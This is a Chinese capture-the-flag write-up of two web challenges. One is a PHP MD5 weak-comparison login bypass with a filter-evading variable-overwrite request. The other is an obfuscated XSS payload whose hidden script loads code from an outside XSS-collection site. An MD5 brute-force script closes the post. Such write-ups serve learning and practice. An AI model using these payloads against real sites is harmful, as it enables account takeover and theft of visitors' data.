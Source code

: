 这周做了比较久，一是没啥思路，二是快过年了，回老家之后没啥时间

### LazyDogR4U 
一开始毫无思路，最后用dirsearch扫描目录，被封ip了，过了几天尝试`www.zip`得到了源码，好家伙
![](https://img-blog.csdnimg.cn/20210210183742508.png)
随后分析得到的源码，发现判断登录是判断的md5值，使用的是`==`，弱比较，又因为config.ini：
```
[global]
debug = true

[admin]
username = admin
pass_md5 = b02d455009d3cf71951ba28058b2e615

[testuser]
username = testuser
pass_md5 = 0e114902927253523756713132279690
```
发现testuser的密码为0e开头，后面是一串数字，那么传入md5加密后为0e开头的即可，我这里使用的是`QNKCDZO`，成功登录
![](https://img-blog.csdnimg.cn/20210210184514307.png)
开始审计代码，很明显的变量覆盖，判断的是如果存在`$filter = ["SESSION", "SEVER", "COOKIE", "GLOBALS"];`，就置为空
```php
$filter = ["SESSION", "SEVER", "COOKIE", "GLOBALS"];

// 直接注册所有变量，这样我就能少打字力，芜湖~

foreach(array('_GET','_POST') as $_request){
    foreach ($$_request as $_k => $_v){
        foreach ($filter as $youBadBad){
            $_k = str_replace($youBadBad, '', $_k);
        }
        ${$_k} = $_v;
    }
}
```
得到flag的条件是：`if($_SESSION['username'] === 'admin')`
直接双写绕过，GET传入`?_SESSESSIONSION[username]=admin`，然后POST传入`submit=getflag`即可得到flag
![](https://img-blog.csdnimg.cn/20210210184333586.png)
### Post to zuckonit
![](https://img-blog.csdnimg.cn/2021020921232934.png)
存在Post和Submit，肯定是xss，那么直接利用网上的xss平台：[https://xss.pt](https://xss.pt)，尝试了一下，发现script会被过滤，那么使用img试了一下，发现所有代码反过来了，那么反着提交一遍试一下，发现成功，这里使用的是
```
// 通杀火狐谷歌360
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwczovL3hzcy5wdC9VSFVSPycrTWF0aC5yYW5kb20oKQ=='))>
```
![](https://img-blog.csdnimg.cn/20210209213127125.png)
使用了比较弱智的MD5脚本：
```python
import hashlib
dict1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXZY"

for i in dict1:
    for j in dict1:
        for k in dict1:
            for m in dict1:
                for n in dict1:
                    str1 = i+j+k+m+n
                    if(hashlib.md5(str1.encode("UTF-8")).hexdigest().startswith("546cea")):
                        print(str1)
```